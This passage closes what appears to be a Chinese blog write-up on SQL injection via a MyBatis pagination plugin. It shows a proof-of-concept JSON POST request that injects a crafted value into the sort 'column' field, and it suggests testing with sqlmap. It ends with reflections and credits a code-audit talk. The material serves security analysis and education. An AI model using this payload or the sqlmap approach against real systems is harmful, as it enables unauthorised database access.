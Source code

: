 ![demo_baomi](mybatis插件下的SQL注入/demo_baomi.png)

&emsp;&emsp;恰好对应的接口方法接受复杂对象传参，即JSON POST：

![demo_baomi2](mybatis插件下的SQL注入/demo_baomi2.png)

于是我们可构造如下POC，并通过 `sqlmap --level 5 --technique et`进行测试：

```http
POST /xxxx/loginLog/page/query HTTP/1.1
Host: 127.0.0.1:8088
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:104.0) Gecko/20100101 Firefox/104.0
Content-Type: application/json

{"userName":"","ip":"","pageNum":1,"pageSize":1,"sortItemList":[{"column":"? ,( * )-- -","isAsc":true}]}
```



## 5. 结语

&emsp;&emsp;在笔者知晓该SQL注入问题后，意识到自己在日渐累积的工作生涯中，日渐淡出了这种探究各“不清不楚”问题的热情。当然也有一些务实行事方法的影响——对待新问题，实际工作中遇到再探究即可，毕竟可学习的东西可多了。但这却也使得笔者在自己比较熟悉的一些方面，遇到某些“概念”时也不以为意，放任不管。

&emsp;&emsp;感谢`2022-12 psrc-甲方视角下的代码审计`的分享，PPT中提到pagehelper插件问题，笔者遂对此进行了一番简单分析，并作此分享。